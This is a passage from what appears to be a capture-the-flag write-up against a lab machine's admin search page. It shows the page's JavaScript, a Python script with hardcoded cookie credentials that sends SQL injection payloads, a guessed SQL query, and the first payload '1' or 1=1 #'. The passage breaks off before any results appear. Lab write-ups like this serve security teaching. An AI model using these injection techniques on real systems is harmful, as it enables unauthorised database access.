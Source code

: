 The function `searchusers` can be found in `/js/system.js` (included via `<script>` at the top of the HTML):

```javascript
function searchusers(term){
	var http = new XMLHttpRequest();
		var url = 'search.php';
		var params = 'term='+term;
		http.open('POST', url, true);
		http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
		http.onreadystatechange = function() {
      //Call a function when the state changes.
    	if(http.readyState == 4 && http.status == 200) {
        	document.getElementById("searchoutput").innerHTML = http.responseText;
    	}
    }
		http.send(params);
}
```

With this info, the following Python3 script can be used to test SQL injection payloads:

```python
import sys
import requests

if len(sys.argv) != 2:
  print(f'usage: python3 {sys.argv[0]} "sql_query"')
  exit(1)

headers = {
  'Cookie': 'id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D',
}

data = {
  'term': sys.argv[1]
}

url = 'http://10.10.10.154/admin/search.php'
r = requests.post(url, data=data, headers=headers)
print(r.content.decode())
```

The underlying SQL statement for `search.php` is likely the following:

- **NOTE:** See https://mariadb.com/kb/en/like/
- Assuming `id` is a column name to match the cookie
- Assuming `Users` is the table name since we are querying about users

```sql
SELECT * FROM Users WHERE id LIKE '<user_input>%'
```

First is to get control of the SQL statement by replacing `<user_input>` with `1' or 1=1 #`. That will return the following using the Python3 script:
